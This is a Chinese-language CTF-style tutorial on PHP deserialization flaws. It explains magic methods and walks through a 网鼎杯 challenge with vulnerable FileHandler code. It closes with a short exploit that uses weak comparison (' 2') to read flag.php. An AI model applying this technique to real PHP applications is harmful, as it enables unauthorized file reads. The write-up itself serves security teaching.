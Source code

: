 ```yaml
---
title: "PHP反序列化漏洞" # 文章标题.
date: 2023-04-02
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# PHP反序列化漏洞

![PHP反序列化漏洞](./PHP反序列化漏洞.png)

序列化与反序列化的关系

![什么是序列化](./什么是序列化.jpg)

## PHP反序列化漏洞

原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致`代码`

`执行`，`SQL注入`，`目录遍历`等不可控后果。在反序列化的过程中自动触发了某些魔术方法。当进行

反序列化的时候就有可能会触发对象中的一些魔术方法。

```php
serialize() // 将一个对象转换成一个字符串,序列化
unserialize() // 将字符串还原成一个对象,反序列化
```

常见的魔术方法

```php
__construct() // 创建对象时触发
__destruct() // 对象被销毁时触发
__call() // 在对象上下文中调用不可访问的方法时触发
__callStatic() // 在静态上下文中调用不可访问的方法时触发
__get() // 用于从不可访问的属性读取数据
__set() // 用于将数据写入不可访问的属性
__isset() // 在不可访问的属性上调用 isset()或 empty()触发
__unset() // 在不可访问的属性上使用 unset()时触发
__invoke() // 当脚本尝试将对象调用为函数时触发
```

触发：`unserialize`函数的变量可控，文件中存在可利用的类。

## 反序列化

### 无类

对于无类的反序列化来说，非常简单，直接根据需要进行反序列化即可。

```php
<?php
$str = "123love456";
$flag = serialize($str);
echo $flag; // s:10:"123love456"
echo unserialize($flag); // 123love456
?>
```

### 有类

需要根据相应的类名，相应属性，去序列化相应的类

#### 网鼎杯

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

涉及：反序列化魔术方法调用，弱类型绕过，ascii绕过

使用该类对 flag 进行读取，这里面能利用的只有`__destruct`函数（析构函数）。

`__destruct` 函数对`$this->op` 进行了`===`判断并内容在2字符串时会赋值为1，`process`函数中使用`==`对`$this->op`进行判断（为 2 的情况下才能读取内容），因此这里存在弱类型比较，可以使用数字2或字符串`' 2'`绕过判断。

`is_valid`函数还对序列化字符串进行了校验，因为成员被`protected`修饰，因此序列化字符串中会出现 `ascii`为0的字符。

经过测试，在 `PHP7.2+`的环境中，使用 `public` 修饰成员并序列化，反序列化后成员也会被 `public` 覆盖修饰。

##### 通关的exp

```php
<?php
class FileHandler {

    public $op=" 2";
    public $filename="flag.php";
    public $content=" ";

}
$flag = new FileHandler();
echo serialize($flag);
?>
```

## 知识补充

在`PHP`中：

`==`是值相等，`===`是类型和值都要相等

JavaScript在比较的时候如果是`==`会先做类型转换，再判断值得大小，如果是`===`类型和值必须都相等。
